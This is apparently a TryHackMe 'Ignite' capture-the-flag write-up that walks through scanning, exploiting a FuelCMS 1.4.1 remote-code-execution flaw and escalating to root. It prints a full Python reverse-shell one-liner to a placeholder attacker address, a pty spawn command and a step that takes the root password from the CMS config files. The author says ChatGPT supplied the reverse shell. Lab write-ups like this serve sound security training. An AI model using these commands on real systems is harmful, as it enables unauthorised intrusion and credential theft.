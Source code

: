 # -THM-Ignite

First we define the IP
```
IP=xx.xx.xxx.xxx
```
## Nmap Scan
I started analyzing the environment using __`nmap`__  to discover open ports 

```
nmap -sV -sC -oN nmap_scan $IP
```

> - `-sV`: Detect service/version
> - `-sC`: Run default scripts
> - `-oN`: Output to file (normal format)


![image](https://github.com/user-attachments/assets/28b25ad2-3fba-4565-aa47-b692a18629fc)


We see that port `80 (HTTP)` is open

![image](https://github.com/user-attachments/assets/18981159-98b3-4af3-8d62-11df3f5328ac)

I use __searchsploit__ to see if it is any exploit for __Fuel__
![image](https://github.com/user-attachments/assets/1e03874b-e81c-4f21-8b83-fe983a387058)

Let s try code execution ... , I found an exploit on GitHub , let s try it 
```
git clone https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE.git 
```
Nice , we got shell and we are __www-data__

![image](https://github.com/user-attachments/assets/58ba6690-9b13-4deb-9701-3fe9ccb599e4)

# And we get the first flag : user.txt 
![image](https://github.com/user-attachments/assets/cbad5042-3eb8-422a-956d-00a95edc9ca5)

I asked ChatGPT to give me a command for a reverse shell:
```
python3 -c 'import socket,os,subprocess;s=socket.socket();s.connect(("YOUR_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'

```
After this I put an nc to listen on 4444 and try it 


![image](https://github.com/user-attachments/assets/e968b8b6-b98e-484c-863f-c6410c5179f9)


Some research and I find this: 

![image](https://github.com/user-attachments/assets/1039832d-7f28-4e1d-a73a-fd300b90cc73)

Lets check it in -> 

```
/var/www/html/fuel/application/config
```

![image](https://github.com/user-attachments/assets/ff7c490c-3ad7-4c34-8e0a-ce4bf4c22586)

and we find the password for root 

![image](https://github.com/user-attachments/assets/3e00a449-1e15-4ac4-bc27-cdee8b918bf1)

I run a reverse shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# And we get the second flag : root.txt

![image](https://github.com/user-attachments/assets/02e81c60-b9ae-4456-8351-0d084ff0f1bb)


